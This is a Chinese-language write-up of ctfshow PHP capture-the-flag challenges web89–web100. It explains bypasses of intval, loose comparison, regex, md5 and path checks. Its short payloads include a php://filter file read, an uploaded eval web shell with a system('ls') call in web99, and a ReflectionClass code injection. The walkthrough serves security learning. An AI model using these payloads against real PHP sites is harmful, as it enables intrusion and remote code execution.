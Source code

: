﻿---
layout: post
title: ctfshow-php
---
>**web89**
![89](/assets/images/imgshow/8900.png)
首先，我们应该先搞懂intval这个函数     
intval() 函数用于获取变量的整数值。     
intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1     
intval() 函数作为数组的话空数组返回0，非空则返回1；    
因此，我们可以传一个非空数组让if条件成立，返回flag    
![89](/assets/images/8901.png)    

>**web90**   
![90](/assets/images/imgshow/9000.png)    
因为有===    
所以我们可以利用num=4476.0，当intval读到符号时返回值   
![90](/assets/images/imgshow/9001.png)    
还可以利用十六进制和八进制    
num=010574（八进制）   
num=0x117（十进制）    
或者num=4475a   
![90](/assets/images/imgshow/9002.png)  

>**web91**  
![91](/assets/images/imgshow/9100.png)   
这里是个正则匹配^开头   $结尾  
这里的意思是说第一个if要以php开头，第二个if不能以php开头结尾     
并且这里i是不区分大小写，m是多行匹配   
就因为这两个if相差m，所以我们可以用%0a换行来匹配    
![91](/assets/images/imgshow/9101.png)     

>**web92**     
![92](/assets/images/imgshow/9200.png)     
考察了一个==弱类型比较  
可以试着用八进制和十六进制直接绕过==  
![92](/assets/images/imgshow/9101.png)
![92](/assets/images/imgshow/9102.png)
或者利用科学计数法构造第一个if绕过，第二个if遇到字母就结束   
payload：num=4476e123     

>**web93**  
![93](/assets/images/imgshow/9300.png)    
同上题一样只是过滤了十六进制   

>**web94**
![94](/assets/images/imgshow/9400.png)     
pos是截取当前字符串第一个  
因此可以利用空格%20绕过   
或者+4476 绕过   
利用===构造4476.1     

>**web95**   
![95](/assets/images/imgshow/9500.png)   
这次多过滤了小数点，所以用空格加八进制过滤就行    

>**web96**
![96](/assets/images/imgshow/9600.png)   
这是一道路劲问题因为有highlight_file这个函数   
?u=/var/www/html/flag.php              绝对路径        
?u=./flag.php                          相对路径     
?u=php://filter/resource=flag.php      php伪协议     
![96](/assets/images/imgshow/9601.png)   

>**web97**   
![97](/assets/images/imgshow/9700.png)    
这里有md5，用到了md5强碰撞    
所以利用数组返回NULL   
?a[]=1&b[]=2   
![97](/assets/images/imgshow/9701.png)   

>**web98**   
![98](/assets/images/imgshow/9800.png)   
这道题运用了三元运算   
第一个是如果get传参，下一次就会把get变成post方式   
中间两个COOKIE 和 SERVER跟没没用，不用管它   
于是只用完成最后一个highlight_file三元运算就行了   
![98](/assets/images/imgshow/9801.png)   

>**web99**  
![99](/assets/images/imgshow/9900.png) 
rand会生成随机数  
in——array是延用了==弱类型比较  
所以payload：
get:n=1.php  POST: content=<?php eval($_POST[a]); ?> 
在打开1.php  POST:a=system('ls')    
发现了flag36d.php  在打开即可得到flag   

>**web100** 
![100](/assets/images/imgshow/10000.png)   
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);   
重点理解这句话，这句话是关键   
首先我们应该补给一下知识   
优先权 && > = > and   
|| > = > or  
因此这句话只用满足v1为数字即可   
第二部分     
反射类的具体使用方法可参考php官网文档,简单来说反射类就是存放了类里的所有东西。     
最简单的方法直接输出这个类即可，也就是构造出 echo new ReflectionClass('ctfshow');     
payload:?v1=1&v2=echo new ReflectionClass&v3=;  

